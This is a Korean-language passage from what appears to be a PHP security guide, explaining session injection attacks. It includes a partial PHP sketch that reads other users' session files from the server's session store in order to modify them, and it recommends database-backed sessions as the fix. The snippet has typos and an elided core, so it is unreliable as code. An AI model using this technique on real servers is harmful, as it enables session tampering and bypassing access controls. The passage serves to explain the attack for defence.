 # 8.3 세션 삽입 공격
 세션 유출에 대한 우려와 유사한 것으로 세션 삽입 공격이 있습니다. 해당 공격은 웹 서버가 세션 데이터 저장소에 대해 읽기 권한 뿐만 아니라 쓰기 권한도 있다는 사실을 이용한 것입니다. 따라서, 스크립트에서 다른 사용자의 세션을 추가하고, 수정하고, 삭제할 가능성이 있습니다.
 ```
<?php
    sesstion_start();
?>
<form action="inject.php" method="POST">
<?php
    $path = ini_get('session.save_path'); // 해당 공격이 이루어 지기 위해서는 세션 데이터 저장소를 알아야함
    $handel = dir($path);

    while ($filename = $handle->read()) {
        if (substr($filename, 0, 5) == 'sess_') {
            $sess_data = file_get_contents("$path/$filename");
            
            if(!empty($sess_data)) {
                session_decode($sess_data);
                $sess_data = $_SESSION;
                $_SESSION = array();
                ...
                세션 데이터를 읽어 input 태그에 삽입 후 inject.php로 전송
                ...
            }
        }
    }
    
?>
 ```
 해당 공격은 세션 하이재킹보다 더 강력한 공격이기도 합니다. 궁극적으로 액세스 제한이나 기타 보안을 위한 수단을 우회하기 때문입니다. 그래서 해당 문제를 해결하기 위한 방법은 데이터베이스에 세션 데이터를 저장하는 것뿐 입니다.

 